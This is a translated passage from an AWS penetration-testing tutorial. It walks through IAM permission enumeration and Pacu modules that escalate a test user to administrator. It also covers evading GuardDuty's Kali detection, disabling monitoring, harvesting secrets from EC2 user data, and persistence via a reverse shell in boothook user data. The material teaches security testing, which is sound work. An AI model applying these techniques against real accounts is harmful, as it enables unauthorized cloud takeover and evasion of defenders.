需要注意的一点是，如果用户没有`iam:GetAccountAuthorization`权限，此脚本将失败，因为他们将无法收集用户、组、角色和策略的列表。为了潜在地解决这个问题，我们可以参考本节的开头部分，其中指出，有时通过 AWS API 执行某些操作的方法不止一种，这些不同的方法需要不同的权限集。

如果我们的用户没有`iam:GetAccountAuthorizationDetails`权限，但他们有其他 IAM 读取权限，则仍然可以枚举我们的权限列表。我们将不会运行并创建这样做的脚本，但如果您想尝试，这里有一个通用指南：

1.  检查我们是否有`iam:GetAccountAuthorizationDetails`许可
2.  如果是这样，请运行我们刚刚创建的脚本
3.  如果没有，请转至步骤 2
4.  使用`iam:GetUser`API 确定我们是什么用户（请注意，这不适用于角色！）
5.  使用`iam:ListUserPolicies`API 获取附加到用户的内联策略列表
6.  使用`iam:GetUserPolicy`API 获取每个内联策略的文档
7.  使用`iam:ListAttachedUserPolicies`API 获取附加到用户的托管策略列表
8.  使用`iam:GetPolicy`API 确定附加到用户的每个托管策略的默认版本
9.  使用`iam:GetPolicyVersion`API 获取附加到用户的每个托管策略的策略文档
10.  使用`iam:ListGroupsForUser`API 找出我们的用户属于哪些组
11.  使用`iam:ListGroupPolicies`API 列出附加到每个组的内联策略
12.  使用`iam:GetGroupPolicy`API 获取附加到每个组的每个内联策略的文档

13.  使用`iam:ListAttahedGroupPolicies`API 列出附加到每个组的托管策略
14.  使用`iam:GetPolicy`API 确定附加到每个组的每个托管策略的默认版本
15.  使用`iam:GetPolicyVersion`API 获取附加到每个组的每个托管策略的策略文档

正如您可能知道的，这种权限枚举方法需要对 AWS 进行更多的 API 调用，而且对于监听防御者来说，它可能比我们的第一种方法要响亮得多。但是，如果您没有`iam:GetAccountAuthorizationDetails`权限，但您确实拥有执行列出的所有步骤所需的权限，那么这可能是正确的选择。

# 使用 Pacu 升级权限和收集凭据

在尝试检测和利用目标用户的权限提升之前，我们将添加另一个策略，使该用户容易受到权限提升的攻击。在继续之前，使用以下文档向原始`Test`用户添加名为`PutUserPolicy`的内联策略：

```
{ 
    "Version": "2012-10-17", 
    "Statement": [ 
        { 
            "Effect": "Allow", 
            "Action": "iam:PutUserPolicy", 
            "Resource": "*" 
        } 
    ] 
} 
```

此策略允许我们的用户在任何用户上运行`iam:PutUserPolicy`API 操作。

# Pacu–一个开源 AWS 开发工具包

**Pacu**是由 Rhino 安全实验室编写的开放源码 AWS 开发工具包。它的目的是帮助渗透测试人员在攻击 AWS 环境中进行测试；所以，现在我们将快速安装和设置 Pacu，以自动化我们一直在尝试的这些攻击。

更多关于安装和配置的详细说明，请参见[第 19 章](19.html)、*将其整合到真实世界的 AWS Pentesting*；这些步骤旨在让您尽快设置和使用 Pacu。

Pacu 可以通过 GitHub 获得，所以我们需要运行一些命令来安装所有东西（我们正在运行 Kali Linux）。首先，让我们确认我们已经安装了`git`：

```
 apt-get install git 
```

然后我们将从 GitHub（[中克隆 Pacu 存储库 https://github.com/RhinoSecurityLabs/pacu](https://github.com/RhinoSecurityLabs/pacu) ：

```
 git clone https://github.com/RhinoSecurityLabs/pacu.git
```

然后，我们将切换到 Pacu 目录并运行安装脚本，以确保安装了正确的 Python 版本（Python 3.5 或更高版本），并使用`pip3`安装必要的依赖项：

```
 cd pacu && bash install.sh 
```

现在 Pacu 应该已成功安装，我们可以使用以下命令启动它：

```
 python3 pacu.py
```

将显示一些消息，告知您已生成新的设置文件，并已创建新的数据库。它将检测到我们还没有建立一个`session`，因此它将要求我们命名一个要创建的新会话。Pacu 会话基本上是一个项目，在同一个安装中可以有多个单独的 Pacu 会话。会话数据存储在本地 SQLite 数据库中，每个会话都可以看作是一个项目或目标公司。它允许您在多个环境中工作时将数据和凭据分开。每个 Pacu 会话之间的日志和配置也是分开的；我们将把我们的会话命名为`Demo`：



一旦我们的新会话成功创建，我们将获得一些与 Pacu 相关的有用信息，我们将在稍后进行更深入的讨论。

# Kali Linux 检测旁路

因为我们在 Kali Linux 上运行 Pacu，所以在帮助输出之后，我们会看到一条关于我们的用户代理的额外消息，类似于下面的屏幕截图所示：


我们可以看到，Pacu 检测到我们正在运行 Kali Linux，并因此修改了我们的用户代理。`GuardDuty`是 AWS 提供的众多安全服务之一，用于检测和提醒 AWS 环境中发生的可疑行为。`GuardDuty`检查的一件事是，您是否正在进行源自 Kali Linux（[的 AWS API 调用 https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_pentest.html#pentest1](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_pentest.html#pentest1) ）。我们希望在我们攻击的帐户中触发尽可能少的警报，因此 Pacu 内置了自动绕过此安全措施的警报。`GuardDuty`检查进行 API 调用的用户的用户代理，查看其是否从中识别出 Kali Linux，如果识别出，则向其发出警报。Pacu 将我们的用户代理修改为对`GuardDuty`看起来不可疑的通用用户代理。

# Pacu CLI

在输出之后，我们可以看到称为 Pacu CLI 的内容：


这向我们展示的是，我们在 Pacu CLI 中，活动会话名为 Demo，并且没有活动密钥。我们可以通过几种不同的方式向 Pacu 数据库添加一些 AWS 密钥，例如使用`set_keys`命令，或者从 AWS CLI 导入它们。

我们已经设置了用于 AWS CLI 的 AWS 密钥，因此最简单的方法是从 AWS CLI 导入它们。我们可以通过运行以下 Pacu 命令导入我们的`Test`AWS CLI 配置文件：

```
 import_keys Test 
```

此命令应返回以下输出：

```
Imported keys as "imported-Test"
```

现在，如果我们运行`whoami`命令，我们应该能够看到我们的访问密钥 ID 和机密访问密钥已经导入，如果我们查看 Pacu CLI，我们可以看到现在不是`No Keys Set`，而是我们导入的密钥的名称。Pacu CLI 的位置指示活动凭据集是什么：


现在我们已经设置了 Pacu，我们可以通过从 Pacu CLI 运行`ls`命令来检索当前模块的列表。为了使我们在本章前面完成的一个过程自动化，我们将使用`iam__enum_permissions`模块。此模块将执行必要的 API 调用和数据解析，以收集活动凭证集的已确认权限列表。此模块也可以针对帐户中的其他用户或角色运行，因此要更好地了解其功能，请运行以下命令：

```
 help iam__enum_permissions 
```

现在您应该能够看到模块的描述以及它支持的参数。要为我们自己的用户运行此模块，我们不需要传入任何参数，因此只需运行以下命令即可执行该模块：

```
 run iam__enum_permissions 
```

如果当前的一组凭据具有枚举其权限（由于我们在本章前面设置的原因，它们应该具有枚举权限），则输出应指示模块已成功收集该用户或角色的权限：


现在已经枚举了用户的权限，我们可以通过再次运行`whoami`命令来查看枚举的数据。这一次，大部分数据将被填写。

“组”字段将包含有关用户所属的任何组的信息，“策略”字段将包含有关附加到用户的任何 IAM 策略的信息。还应填写识别信息，如`UserName`、`Arn`、`AccountId`、`UserId`字段。

在输出的底部，我们可以看到`PermissionsConfirmed`字段，该字段为 true 或 false，它指示我们是否能够成功枚举我们拥有的权限。如果我们被拒绝访问某些 API 并且无法收集完整的权限列表，则该值将为 false。

`Permissions`字段将包含用户获得的每个 IAM 权限、这些权限可以应用到的资源以及使用这些权限所需的条件。与本章前面编写的脚本一样，此列表包含附加到用户的任何内联或托管策略授予的权限，以及附加到用户所属的任何组的任何内联或托管策略授予的权限。

# 从枚举到权限提升

我们的权限已枚举，因此现在我们将尝试在环境中使用这些权限进行权限升级。还有一个名为`iam_privesc_scan`的 Pacu 模块。此模块将运行并检查您枚举的权限集，以查看您的用户是否易受 AWS 中 21 种已知权限提升方法中任何方法的攻击。

Rhino Security Labs 撰写了一篇文章，详细介绍了这 21 种不同的权限提升方法以及如何手动利用它们，您可以在这里参考：[https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/) 。

在模块检查我们是否易受这些方法的攻击后，它将尝试利用它们为我们进行权限升级，这使我们的工作变得简单。如果您有兴趣阅读有关权限提升模块的更多信息，可以使用`help`命令执行此操作：

```
help iam__privesc_scan
```

如您所见，此模块还可以针对帐户中的其他用户和角色运行，以确定他们是否也容易受到权限提升的攻击，但目前我们只针对我们自己的用户。

我们已经枚举了权限，因此我们可以继续运行特权升级模块，而无需任何参数：

```
run iam__privesc_scan
```

该模块将执行，搜索您的权限，查看您是否易受其检查的任何升级方法的攻击，然后尝试利用这些方法进行攻击。对于我们的`Test`用户，它应该检测到我们易受`PutUserPolicy`权限提升方法的攻击。然后，它将试图滥用该权限，在我们的用户上放置（实质上附加）一个新的内联策略。我们控制附加到用户的策略，因此我们可以指定管理员级别的 IAM 策略并将其附加到用户，然后授予管理员访问权限。该模块将通过向用户添加以下策略文档自动完成此操作：

```
{ 
    "Version": "2012-10-17", 
    "Statement": [ 
        { 
            "Effect": "Allow", 
            "Action": "*", 
            "Resource": "*" 
        } 
    ] 
} 
```

以下屏幕截图显示的输出应与运行特权升级模块时看到的类似：



在前面的屏幕截图中，我们可以看到一行`Successfully added an inline policy named jea70c72mk! You should not have administrator permissions.`这听起来不错，但让我们确认一下这一点。

我们可以用几种不同的方式来证实这一点；一种是再次运行`iam__enum_permissions`模块，然后查看权限字段。它应该包括一个新的权限，它只是一个星号（`*`），这是一个通配符，上面写着`all permissions`。这意味着我们有管理员访问环境的权限！

如果我们在 AWS web 控制台中查看我们的用户，我们将看到我们的用户附加了一个名为`jea70c72mk`的新策略，当我们单击它旁边的箭头下拉文档时，我们可以看到其中放置的管理员策略：


# 使用新的管理员权限

Pacu 允许我们直接从 Pacu CLI 使用 AWS CLI，用于您可能希望运行单个命令而不是完整模块的情况。让我们使用此功能和新的管理员权限运行 AWS CLI 命令来请求以前没有的数据。这可以通过运行 AWS CLI 命令来完成，因为我们通常会这样做，所以我们可以尝试运行命令来枚举帐户中的其他资源。我们目前在自己的个人帐户中，因此此命令可能不会为您返回任何有效数据，但检查您正在攻击的其他帐户中的此 API 调用非常重要。

我们可以通过从 Pacu CLI 运行以下命令来检查帐户是否在`us-east-1`区域启用了`GuardDuty`：

```
   aws guardduty list-detectors --profile Test --region us-west-2 
```

在我们的`Test`账户中，我们确实有`GuardDuty`在运行，因此我们得到如下屏幕截图所示的输出。但如果您没有运行`GuardDuty`，则`DetectorIds`字段将为空：


该命令从 AWS 返回一个`DetectorId`。对于此 API 调用，任何数据的存在都意味着之前已为此区域启用了 GuardDuty，因此可以安全地假设它仍然处于启用状态，而无需再进行任何 API 调用。如果目标区域中`GuardDuty`被禁用，`DetectorIds`将只是一个空列表。作为攻击者，最好禁用`GuardDuty`，因为这样我们就知道它不会向我们的目标发出我们正在执行的任何恶意活动的警报。

然而，即使`GuardDuty`被启用，这并不意味着我们的努力是徒劳的。在这样的攻击场景中，有很多因素起作用，例如，如果有人注意到正在触发的`GuardDuty`警报，如果有人注意到警报，他们对警报的响应时间，以及做出反应的人是否对 AWS 有很强的理解，以便能够全面跟踪您的行为。

我们可以通过运行`detection__enum_services`Pacu 模块来检查`GuardDuty`等日志和监控服务。该模块将检查 CloudTrail 配置、CloudWatch 报警、主动屏蔽**分布式拒绝服务**（**DDoS**保护计划、`GuardDuty`配置，配置配置和资源，以及**虚拟私有云（****VPC】**流量日志。这些服务都有不同的用途，但作为攻击者，了解什么在监视您以及什么在跟踪您是很重要的。

Pacu 在 enum 类别中有许多模块，可用于枚举目标 AWS 帐户中的各种资源。需要检查的一些有趣的模块包括`aws__enum_account`模块，该模块列举了当前 AWS 帐户的信息；`aws__enum_spend`模块，该模块收集花费资金的 AWS 服务列表（因此您可以确定正在使用哪些服务，而无需直接查询该服务 API）；或者`ec2__download_userdata`模块，下载并解码连接到帐户中每个 EC2 实例的 EC2 用户数据。

EC2 用户数据本质上只是添加到 EC2 实例中的一些文本，一旦实例联机，该数据就可供其使用。这可用于设置实例的初始配置，或为其提供稍后可能需要查询的设置或值。也可以通过 EC2 用户数据执行代码。

通常，用户或软件会将硬编码秘密（如 API 密钥、密码和环境变量）放入 EC2 用户数据中。这是一种不好的做法，Amazon 在其文档中不鼓励这样做，但这仍然是一个问题。作为攻击者，这对我们有利。EC2 用户数据可以被任何有`ec2:DescribeInstanceAttribute`权限的用户读取，所以任何硬编码的秘密也可以被他们使用。作为攻击者，检查此数据是否有任何有用的信息非常重要。

`ec2__download_userdata`Pacu 模块将自动浏览并下载所有实例的用户数据，并启动账户中列举的模板，便于我们筛选结果。

您可以运行以下命令来启动模块：

```
 run ec2__download_userdata 
```

现在，Pacu 将检查它知道的每个 EC2 实例的用户数据，如果有，它将下载到 Pacu 主目录中的`./sessions/[session name]/downloads/ec2_user_data/`文件夹中。

如果您尚未使用`ec2__enum`模块在目标帐户中枚举 EC2 实例和启动模板，则系统将提示您在模块执行之前运行该模块。您可能会收到一条消息，确认您是否要针对每个 AWS 区域运行模块，目前还可以，因此我们将回答`y`：


在列举了 EC2 实例之后，它可能会对 EC2 启动模板（也保存用户数据）提出同样的问题。我们也可以让它列举出来。

枚举实例和启动模板后，执行将切换回我们原来的`ec2__download_userdata`模块，下载并解码与我们找到的任何实例或启动模板关联的用户数据。

模块在我们的帐户中找到了三个 EC2 实例和一个 EC2 启动模板，其中包含与它们相关联的用户数据。以下屏幕截图显示了模块的输出，包括其执行的结果以及数据的存储位置：


`ec2__download_userdata`模块在账户中找到了四分之三的 EC2 实例所附的用户数据，在账户中找到了一分之一的启动模板。然后将该数据保存到 Pacu 目录的`./sessions/Demo/downloads/ec2_user_data/`文件夹中。

如果我们导航到这些文件下载到的文件夹并在文本编辑器中打开它们，我们可以看到纯文本的数据。下面的屏幕截图显示，`ap-northeast-2`区域中具有`i-0d4ac408c4454dd9b`ID 实例的实例具有以下用户数据：



这只是一个演示该概念的示例，因此基本上当 EC2 实例启动时，它将运行以下命令：

```
 echo "test" > /test.txt 
```

然后它将继续引导过程。大多数情况下，传递到 EC2 用户数据中的脚本仅在首次创建实例时执行，但通过在前面的用户数据中使用`#cloud-boothook`指令，实例被指示在每次启动时运行此代码。通过在每次实例重新启动时要执行的用户数据中放置一个反向 shell，这是一种获得对 EC2 实例的持久访问的好方法，但这将在后面的章节中详细介绍。

# 总结

在本章中，我们介绍了如何在 AWS pentest 中利用 Python`boto3`库。它使我们能够快速而简单地自动化攻击过程的一部分，其中我们专门介绍了如何枚举环境中我们自己和其他人的 IAM 权限（以两种不同的方式），以及如何应用这些知识来提升我们的权限，从而有望成为帐户的完全管理员。

我们还了解了 Pacu 中的许多流程是如何实现自动化的。尽管这样做很好，但 Pacu 不能涵盖您想到的所有想法、攻击方法或漏洞，因此了解如何使用 AWS 库与 Pacu 之外的 AWS API 进行正确交互非常重要。然后，有了这些知识，您甚至可以开始编写自己的 Pacu 模块供其他人使用。

在下一章中，我们将继续使用`boto3`和 Pacu 为目标环境建立持久访问。这使我们能够在防御者的检测下生存下来，并确保我们能够保持对环境的访问，即使在最坏的情况下也是如此。这使我们能够帮助培训维护者应对事件，使他们能够了解他们对环境的哪些方面视而不见，以及如何修复它们。在 AWS 中建立持久性的潜在方法有很多种，其中一些已经由 Pacu 自动化，我们将研究使用 IAM 和 Lambda 部署类似的方法。*